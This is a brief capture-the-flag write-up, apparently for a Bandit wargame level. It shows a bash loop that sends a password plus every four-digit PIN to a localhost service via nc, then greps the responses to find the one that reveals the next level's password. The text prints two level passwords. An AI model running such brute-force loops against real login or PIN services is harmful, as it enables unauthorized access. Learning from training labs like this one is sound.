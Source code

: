 #!/bin/bash



for i in {0000..9999}
do  
#####send UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ followed by $i to local host #port 30002 using nc then put nc output to a file named nc_out_$i       

echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" | nc localhost 30002 >> nc_out_$i

done

This way the output of each nc connection will be saved to a file with the value of $i in its name.
Go to sleep until the loop is over :)

I printed the output of a file:
$cat nc_out_1234

Wrong! Please enter the correct pincode. Try again.
Exiting.

So I supposed that the correct file will have the word correct:
$ grep Correct *
nc_out_ZZZZ:Correct!
$cat nc_out_ZZZZ

I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

Correct!

The password of user bandit25 is 
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG